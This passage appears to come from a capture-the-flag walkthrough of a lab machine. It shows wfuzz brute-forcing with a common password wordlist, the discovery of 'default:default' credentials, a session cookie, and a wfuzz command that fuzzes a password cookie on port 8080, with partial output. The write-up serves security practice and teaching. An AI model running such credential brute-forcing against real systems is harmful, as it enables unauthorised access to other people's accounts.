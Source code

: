 ```
000042:  C=200     18 L	      36 W	    543 Ch	  "temp!"
000043:  C=200     18 L	      36 W	    543 Ch	  "temp123"
000044:  C=200     18 L	      36 W	    543 Ch	  "test"
000045:  C=200     18 L	      36 W	    543 Ch	  "test!"
000047:  C=200     18 L	      36 W	    543 Ch	  "tivoli"
000046:  C=200     18 L	      36 W	    543 Ch	  "test123"
000049:  C=200     18 L	      36 W	    543 Ch	  "virus"
000048:  C=200     18 L	      36 W	    543 Ch	  "veritas"
000050:  C=200     18 L	      36 W	    543 Ch	  "web"
000052:  C=200     18 L	      36 W	    543 Ch	  "KKKKKKK"
000051:  C=200     18 L	      36 W	    543 Ch	  "www"

Total time: 1.696990
Processed Requests: 52
Filtered Requests: 0
Requests/sec.: 30.64248
```

The fuzzed value default returns a different value to all the rest, so we go over to the form and try it out as both the username and password. looks like `default:default` are one set of working credentials:

![224428052.png]({{site.baseurl}}/Images/Dab/224428052.png)

The 8080 page mentioned cookies. So lets see if we have anything interesting in ours.
```
session=eyJ1c2VybmFtZSI6ImRlZmF1bHQifQ.DwhgOg.pANflNXiv4UN963tKWDTBDX2dJs
```

From previous experience we believe that this is could likely a [jot token](https://jwt.io/). But using a JOT decoder returns some invalid results so this could be rabbit hole number 2.

Taking what the website is telling us literally, we try wfuzz again, this time against a simple `password=` cookie to see if we can get any interesting results. The `common_pass.txt` list worked for us last time, maybe it will work again this time:
```
root@kali: wfuzz -w /usr/share/wordlists/wfuzz/others/common_pass.txt -b password=FUZZ http://10.10.10.86:8080/

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
 
********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************
 
Target: http://10.10.10.86:8080/
Total requests: 52
 
==================================================================
ID  Response   Lines      Word         Chars          Payload   
==================================================================
 
000001:  C=200     14 L       29 W      324 Ch    ""
000002:  C=200     14 L       29 W      324 Ch    "123456"
000003:  C=200     14 L       29 W      324 Ch    "1234567"
000004:  C=200     14 L       29 W      324 Ch    "12345678"
000005:  C=200     14 L       29 W      324 Ch    "123asdf"
000006:  C=200     14 L       29 W      324 Ch    "Admin"
000007:  C=200     14 L       29 W      324 Ch    "admin"
000008:  C=200     14 L       29 W      324 Ch    "administrator"
000009:  C=200     14 L       29 W      324 Ch    "asdf123"
000010:  C=200     14 L       29 W      324 Ch    "backup"
000011:  C=200     14 L       29 W      324 Ch    "backupexec"
000012:  C=200     14 L       29 W      324 Ch    "changeme"
```
